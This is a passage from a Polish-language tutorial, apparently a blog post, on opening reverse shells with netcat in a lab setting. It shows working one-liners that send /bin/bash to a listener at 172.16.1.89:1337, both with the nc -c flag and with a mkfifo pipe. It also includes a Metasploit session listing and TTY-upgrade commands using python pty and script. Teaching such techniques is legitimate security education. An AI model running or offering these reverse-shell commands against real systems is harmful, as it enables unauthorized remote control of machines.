 ```bash
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  2         shell sparc/bsd               172.16.1.89:1337 -> 172.16.1.33:58520 (172.16.1.33)
  msf6 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...
```
Powłoką na **Metasploicie** nie będziemy się zajmować, podałem tylko przykład jako ciekawostkę. Wróćmy jednak do _nc_ wysyłającego shell.
{: .text-justify}
# Wysyłanie
I tutaj zaczynają się niestety schody. **Nc** **Nc** w tym wypadku nierówny.
{: .text-justify}
## GNU Netcat (netcat-traditional)
Tutaj możemy po prostu tak wysłać konsolę (podobnie jest w **nc** od **Nmapa**)
{: .text-justify}
```bash
nc 172.16.1.89 1337 -c /bin/bash
```
Jeżeli wszystko wykonaliśmy poprawnie powinno być połączenie.
{: .text-justify}
```bash
connect to [172.16.1.89] from (UNKNOWN) [172.16.1.33] 44962
```
## OpenBSD Netcat (netcat-openbsd)
Tu jest już gorzej. **Nc** z **OpenBSD** nie ma przełącznika **-c** ani **-e**, co pozwala uruchomić **shell**, ale na szczęście jest opisane w podręczniku, jak zrobić przekierowanie z **Basha** (oczywiście ta opcja też działa z nc traditional).
{: .text-justify}
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash 2>&1 | nc 172.16.1.89 1337 > /tmp/f
```
# Mam połączenie, ale i nie mam znaku zachęty
Nie ma sprawy, można to naprawić na parę sposobów. Na konsoli gdzie odbieramy połączenie wklepujemy.
{: .text-justify}
## Python
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
## Script
```bash
script /dev/null -c /bin/bash
```
```bash
Script started, file is /dev/null
[root@rocky8-test1 ~]# 
```
Polecam ten drugi sposób z uruchomieniem programu **Script**
{: .text-justify}
# Ale skąd te krzaki?
```bash
[root@rocky8-test1 ~]# ^[[D^[[D^[[D^[[D
```